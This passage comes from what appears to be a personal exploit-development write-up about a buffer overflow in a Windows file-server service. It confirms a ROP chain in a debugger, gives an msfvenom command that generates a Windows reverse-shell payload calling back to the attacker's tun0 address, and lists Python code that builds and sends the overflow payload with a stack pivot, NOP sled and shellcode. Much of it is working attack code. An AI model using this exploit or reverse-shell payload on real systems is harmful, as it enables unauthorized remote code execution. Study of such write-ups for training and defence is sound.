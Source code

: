 We can corroborate our rop-chain is working using the debugger. We should stop before the _CC_ (breakpoint) instruction is executed.

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-19-08-35.png)

Yay! Now we can execute on the stack (we can confirm by executing on the debugger). We also can control the execution to point to our desired Shellcode, so we can send a reverse shell. At the time, I used the following __msfvenom__ command to generate it.

```
msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=1337 -b"\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
```

Let's replace our shellcode variable with the one generated with _msfvenom_. You can verify that it is working in your local VM  before sending the payload if you need to. The only thing and this is maybe due to latency, but  I had to put a _sleep()_ call before sending the payload to avoid some weird crashes, as shown below.

```python
payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))
r.sendline(payload)
sleep(2)
r.close()
```
